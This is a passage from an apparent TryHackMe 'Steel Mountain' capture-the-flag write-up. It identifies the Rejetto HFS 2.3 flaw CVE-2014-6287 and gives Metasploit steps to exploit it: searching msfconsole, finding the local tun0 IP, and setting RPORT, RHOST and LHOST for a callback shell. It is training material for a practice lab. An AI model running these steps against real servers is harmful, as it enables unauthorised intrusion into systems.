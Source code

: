 [**CVE-Database -> Rejetto HFS 2.3**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287)
<br>[**More detailed explaination**](https://www.kb.cert.org/vuls/id/251276)
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/7.jpg){:.normal}<br><br>

## 3-Exploitation

### Gaining Access to the System - Getting User Flag
Launch up your **msfconsole** and do a search for **CVE-2014-6287** to see if there is any exploit that we can use.
There is one with an excellent rank, awesome! Let us use it.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/8.jpg){:.normal}<br><br>
Copy the THM IP with that command:
{% highlight bash %}
ifconfig | grep -C 1 tun0 | tail -n 1 | awk '{print $2}'
{% endhighlight %}
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/9.jpg){:.normal}<br><br>
-> set RPORT **8080**<br>-> set RHOST **machine IP**<br>-> set LHOST **your THM IP**<br>-> exploit
